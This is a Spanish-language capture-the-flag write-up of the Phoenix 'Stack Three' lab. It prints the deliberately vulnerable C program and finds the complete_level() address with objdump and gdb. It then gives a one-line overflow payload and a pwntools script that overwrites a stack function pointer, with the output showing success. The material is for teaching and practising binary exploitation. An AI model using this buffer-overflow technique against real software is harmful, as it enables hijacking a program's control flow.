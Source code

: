 ```yaml
---
layout: single
title: "Stack Three"
permalink: /pwn/phoenix/stack-three/
parent: Phoenix
comments: true
excerpt: "Stack Three"
classes: wide
header:
  teaser: /assets/images/2025-08-17-Phoenix/logo.jpg
categories: [PWN]
tags: [PWN, Linux, Hacking, Easy]
---
```


![Untitled](/assets/images/2025-08-17-Phoenix/banner.png)

En este nivel se introduce el concepto de **sobrescritura de punteros de función** en la pila.  
El objetivo es modificar el puntero `fp` para que apunte a la función `complete_level()`.

**Consejos:**
- Se puede usar `gdb` y `objdump` para obtener la dirección de la función `complete_level()`.
- El overflow permitirá sobreescribir el puntero de función almacenado justo después del buffer.

## Análisis del código

El programa contiene:

Un buffer de 64 bytes (locals.buffer).

Un puntero a función (locals.fp), inicializado en NULL.

La vulnerabilidad está en el uso de gets(), que permite escribir más allá de los 64 bytes, sobreescribiendo el puntero fp.
Si logramos que fp apunte a complete_level(), se ejecutará y se completará el reto.


```c
/*
 * phoenix/stack-three, by https://exploit.education
 *
 * The aim is to change the contents of the changeme variable to 0x0d0a090a
 *
 * When does a joke become a dad joke?
 *   When it becomes apparent.
 *   When it's fully groan up.
 *
 */

#include <err.h>    // Biblioteca para manejo de errores y salida
#include <stdio.h>  // Biblioteca estándar para entrada y salida (printf, fflush, etc.)
#include <stdlib.h> // Biblioteca para funciones generales, como exit() y malloc()
#include <string.h> // Biblioteca para manipulación de cadenas (gets, strcpy, etc.)
#include <unistd.h> // Biblioteca para funciones del sistema POSIX (sleep, fork, etc.)

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"
// Define una constante con el mensaje que se imprimirá al inicio del programa

char *gets(char *); 
// Declaración de la función 'gets', que permite leer una línea de texto desde la entrada estándar

void complete_level() { 
  // Función para completar el nivel
  printf("Congratulations, you've finished " LEVELNAME " :-) Well done!\n");
  // Muestra un mensaje de felicitación si se completa el nivel
  exit(0); // Sale del programa
}

int main(int argc, char **argv) {
  // Función principal que toma argumentos desde la línea de comandos
  struct {
    char buffer[64];        // Reserva 64 bytes para almacenar la entrada del usuario
    volatile int (*fp)();   // Puntero a función que debe ser modificado por el exploit
  } locals; // Declara la estructura que contendrá el buffer y el puntero a la función

  printf("%s\n", BANNER);
  // Imprime el banner de bienvenida

  locals.fp = NULL;
  // Inicializa el puntero a función a NULL

  gets(locals.buffer);
  // Lee la entrada del usuario con gets() y la guarda en 'buffer' (sin verificar límites, lo que permite un desbordamiento de buffer)

  if (locals.fp) {
    // Si el puntero a la función no es NULL (es decir, ha sido modificado por el atacante)
    printf("calling function pointer @ %p\n", locals.fp);
    // Imprime la dirección de la función que se va a llamar
    fflush(stdout);
    // Fuerza a que los datos pendientes se escriban en la salida estándar
    locals.fp();
    // Llama a la función apuntada por 'fp'
  } else {
    // Si el puntero a la función sigue siendo NULL (no ha sido modificado)
    printf("function pointer remains unmodified :~( better luck next time!\n");
    // Imprime un mensaje indicando que el puntero no ha sido modificado
  }

  exit(0); 
  // Termina el programa correctamente
}
```

**Encontrando la dirección de complete_level()**

Podemos ubicar la dirección con objdump:

```c
user@phoenix-amd64:/opt/phoenix/amd64$ objdump -d stack-three | grep complete_level
000000000040069d <complete_level>:
```

O también con gdb con el comando `info func`

```c
user@phoenix-amd64:/opt/phoenix/amd64$ gdb ./stack-three
GNU gdb (GDB) 8.2.1
Copyright (C) 2018 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-pc-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word"...
GEF for linux ready, type `gef' to start, `gef config' to configure
71 commands loaded for GDB 8.2.1 using Python engine 3.5
[*] 2 commands could not be loaded, run `gef missing` to know why.
Reading symbols from ./stack-three...(no debugging symbols found)...done.
gef➤  info func
All defined functions:

Non-debugging symbols:
0x00000000004004b0  _init
0x00000000004004d0  printf@plt
0x00000000004004e0  gets@plt
0x00000000004004f0  puts@plt
0x0000000000400500  fflush@plt
0x0000000000400510  exit@plt
0x0000000000400520  __libc_start_main@plt
0x0000000000400530  _start
0x0000000000400546  _start_c
0x0000000000400570  deregister_tm_clones
0x00000000004005a0  register_tm_clones
0x00000000004005e0  __do_global_dtors_aux
0x0000000000400670  frame_dummy
0x000000000040069d  complete_level
0x00000000004006b5  main
0x0000000000400740  __do_global_ctors_aux
0x0000000000400782  _fini
```

**Explotación manual**

Si enviamos 64 caracteres seguidos de la dirección de complete_level(), sobrescribiremos el puntero de función: En arquitecturas de 64 bits es mejor usar p64 para garantizar el formato correcto de la dirección.

```c
user@phoenix-amd64:/opt/phoenix/amd64$  python -c 'print "A"*64 + "\x9d\x06\x40"' | ./stack-three
Welcome to phoenix/stack-three, brought to you by https://exploit.education
calling function pointer @ 0x40069d
Congratulations, you've finished phoenix/stack-three :-) Well done!
```

**Exploit con Pwntools**

Creamos un script en Python3 para automatizarlo:

```c
┌──(root㉿angussMoody)-[/mnt/angussMoody/PWN/Phoenix/3_stack-three]
└─# cat Remote_exploit.py 
───────┬─────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: Remote_exploit.py
───────┼─────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ #!/usr/bin/env python3
   2   │ from pwn import *
   3   │ import time
   4   │ 
   5   │ # Conectar al proceso remoto
   6   │ ssh_connection = ssh(user='user', host='localhost', password='user', port=2222)
   7   │ 
   8   │ # Definir el payload
   9   │ payload = b"A" * 64
  10   │ payload += p64(0x40069d)  # Asegúrate de que la dirección esté bien
  11   │ 
  12   │ # Ejecutar el programa remoto
  13   │ process = ssh_connection.process('/opt/phoenix/amd64/stack-three')
  14   │ 
  15   │ # Enviar el payload
  16   │ process.sendline(payload)
  17   │ 
  18   │ # Esperar un poco para asegurar que todo se haya enviado
  19   │ time.sleep(1)
  20   │ 
  21   │ # captura la respuesta y la envía
  22   │ flag = process.recvall().decode()
  23   │ log.success("Output: " + flag)
  24   │ 
  25   │ # Cerrar el proceso
  26   │ process.close()
───────┴─────────────────────────────────────────────────────────────────────────────────────────────────
```

**Resultado final**

Se evidencia el mensaje que indica que el reto fue resuelto

```c
┌──(root㉿angussMoody)-[/mnt/angussMoody/PWN/Phoenix/3_stack-three]
└─# python3 Remote_exploit.py 
[+] Connecting to localhost on port 2222: Done
[*] user@localhost:
    Distro    Unknown 
    OS:       linux
    Arch:     amd64
    Version:  4.9.0
    ASLR:     Disabled
    SHSTK:    Disabled
    IBT:      Disabled
    Note:     Susceptible to ASLR ulimit trick (CVE-2016-3672)
[+] Starting remote process None on localhost: pid 906
[!] ASLR is disabled for '/opt/phoenix/amd64/stack-three'!
[+] Receiving all data: Done (180B)
[*] Stopped remote process 'stack-three' on localhost (pid 906)
[+] Output: Welcome to phoenix/stack-three, brought to you by https://exploit.education
    calling function pointer @ 0x40069d
    Congratulations, you've finished phoenix/stack-three :-) Well done!
```

**Conclusión**

En este reto vimos cómo es posible manipular punteros de función mediante un buffer overflow, redirigiendo la ejecución del programa hacia una función específica.

Puntos clave:

  - Las funciones inseguras como gets() permiten escribir más allá de la memoria asignada.

  - Los punteros de función en la pila son objetivos directos para un atacante.

  - Controlar el flujo del programa a través de estos punteros es una técnica básica pero poderosa en explotación binaria.